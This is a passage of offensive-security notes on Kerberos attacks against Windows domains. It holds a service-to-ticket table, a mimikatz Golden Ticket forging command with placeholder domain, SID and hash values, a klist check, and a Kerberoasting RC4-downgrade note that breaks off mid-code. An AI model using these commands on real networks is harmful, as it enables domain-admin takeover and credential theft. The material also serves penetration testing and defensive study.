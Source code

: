 The **/service** will depend on our goal

|Service|TGS Needed|Access|
|-|-|-|
|WMI|HOST & RPCSS|Remotely execute commands
|Remote PowerShell|HOST & HTTP|WinRM and/or remote PowerShell
|WinRM|HOST & HTTP|WinRM and/or remote PowerShell
|Scheduled Tasks|HOST|Get admin rights on any any Windows service covered by "host"|
|Windows File Share (CIFS)|CIFS|Access any shares and copy files to or from the share|
|LDAP Operations|LDAP|Admin rights to LDAP services

```bash
# Creating and injecting the Golden Ticket
mimikatz # kerberos::golden /domain:victim.local /sid:S-1-5-21-7777777777-7777777777-7777777777 /rc4:7777777777777777777777777777777 /user:newAdmin /ptt
```

We can verify that the cached ticket is there by using [klist](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/klist) which is a native command of Windows used to display a list of currently cached Kerberos tickets.

```bash
klist
```

If the user is set to use AES, we may need to try to downgrade towards RC4 by doing the following on the infected machine
This is done by using the **/tgtdeleg** option which says that accounts with AES enabled will have RC4 tickets requested.

```bash
# All user accounts with SPNs set in the current domain are Kerberoasted
